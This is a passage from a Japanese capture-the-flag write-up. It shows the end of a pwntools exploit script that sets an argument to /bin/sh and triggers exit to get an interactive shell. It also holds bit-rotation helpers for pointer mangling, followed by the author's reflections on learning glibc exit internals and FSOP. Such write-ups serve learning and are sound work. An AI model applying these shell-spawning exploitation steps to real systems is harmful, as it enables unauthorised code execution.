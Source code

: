 ```python
    edit(io, b"TEST", wait_prompt=False)

    success(f"set arg to /bin/sh")

    # STEP3: call exit
    exit_chal(io)

    success("you got true world")

    io.interactive()

def bit_rotate_right(val: int, width: int, n: int) -> int:
    return (val >> n) | ((val << (width - n)) & ((1 << width) - 1))

def bit_rotate_left(val: int, width, n: int) -> int:
    return ((val << n) & ((1 << width) - 1)) | (val >> (width - n))
```

# 感想

`exit`関連とか`FSOP`とか`_rtld_global`とか、glibc の深い部分全然理解してないので、ここで `exit` ちょっとわかって嬉しい。

ヒープなしでもかなり面白い問題作れるんだね。ヒープ嫌いだから楽しかった。

ヒープから逃げるな。
